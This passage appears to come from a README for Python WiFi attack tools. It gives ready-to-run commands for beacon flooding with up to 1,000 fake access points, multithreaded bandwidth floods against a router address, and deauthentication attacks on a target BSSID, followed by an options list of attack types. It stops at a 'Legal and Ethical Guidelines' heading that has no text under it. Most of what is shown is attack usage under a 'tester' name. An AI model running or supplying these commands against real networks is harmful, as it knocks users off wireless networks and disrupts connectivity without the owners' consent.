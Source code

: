 #### Advanced Beacon Flooding
```bash
# Create 1000 realistic fake APs with 20 threads
sudo python3 wifi_advanced_tester.py --beacon-advanced -i wlan0 --threads 20 --count 1000

# Continuous advanced beacon flood
sudo python3 wifi_advanced_tester.py --beacon-advanced -i wlan0 --threads 15
```

#### Bandwidth Consumption
```bash
# High-bandwidth attack with 100 threads
sudo python3 wifi_advanced_tester.py --bandwidth-attack -t 192.168.1.1 --threads 100

# Moderate bandwidth consumption
sudo python3 wifi_advanced_tester.py --bandwidth-attack -t 192.168.1.1 --threads 50
```

### Advanced Options

```bash
# Specify interface and channel
sudo python3 wifi_security_tester.py --deauth -i wlan0 -t AA:BB:CC:DD:EE:FF --channel 6

# Scan with custom duration
sudo python3 wifi_security_tester.py --scan --duration 30

# Interactive mode (scan and select target)
sudo python3 wifi_security_tester.py --deauth
```

## 📖 Command Line Options

```
-h, --help            Show help message
-i, --interface       Wireless interface to use
-s, --scan           Scan for networks
-t, --target         Target BSSID
--ssid               Target SSID
-c, --client         Target client MAC (for deauth)
--channel            Channel to use
--count              Number of packets to send (0 = unlimited)
--duration           Scan duration in seconds

Attack Types:
--deauth             Deauthentication attack
--beacon-flood       Beacon flooding attack
--auth-flood         Authentication flooding attack
--probe-flood        Probe request flooding attack
```

## 🛡️ Legal and Ethical Guidelines
